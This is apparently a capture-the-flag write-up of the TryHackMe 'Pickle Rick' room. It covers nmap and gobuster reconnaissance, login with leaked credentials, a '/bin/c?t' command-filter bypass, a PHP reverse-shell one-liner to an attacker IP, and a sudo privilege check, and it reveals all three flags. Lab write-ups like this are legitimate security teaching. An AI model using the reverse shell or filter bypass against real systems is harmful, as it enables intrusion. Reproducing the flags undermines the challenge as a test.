 # Writeup PickleRick challenge THM

## Website

* In source code there is this comment:
""
    Note to self, remember username!

    Username: R1ckRul3s
""

* run nmap command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
Result:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-01 12:10 CEST
Nmap scan report for 10.10.38.165
Host is up (0.085s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 48:2b:8f:aa:8a:8b:0f:4c:9e:5e:ed:bc:14:89:22:39 (RSA)
|   256 a4:d6:64:ec:c4:db:82:2f:63:65:b3:e1:66:a6:91:44 (ECDSA)
|_  256 0d:8e:10:0b:cd:94:20:b4:41:21:ac:14:62:d6:8b:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
```

* in /robots.txt find string *Wubbalubbadubdub*

* connecting to port 22 (ssh) using username R1ckRul3s and passwrod Wubbalubbadubdub doesn't work (error: R1ckRul3s@10.10.38.165: Permission denied (publickey).)

* tried to find hidden files/strings in images in assets/ directory: nothing found

* run
```
nikto -h 10.10.38.165
```

* meglio gobuster con php extension:
```
gobuster -w /usr/share/wordlists/directory-list-2.3-small.txt -u http://10.10.38.165/ -t 20 -x php
```
result:
*=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.38.165/
[+] Threads      : 20
[+] Wordlist     : /usr/share/wordlists/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2023/05/01 12:51:37 Starting gobuster
=====================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)*

* go to *login.php* (img3) and use credetials R1ckRul3s:Wubbalubbadubdub

## First ingredient

* run ```ls``` command in command panel and get these results:
**Sup3rS3cretPickl3Ingred.txt**
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

* we need to cat Sup3rS3cretPickl3Ingred.txt file but a filter is placed (img4)

* bypass it using the following command (img5):
```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```
first flag found: mr. meeseek hair

## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php (img6):
```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data (?)

* then, (img8)

3rd ingredient: fleeb juice

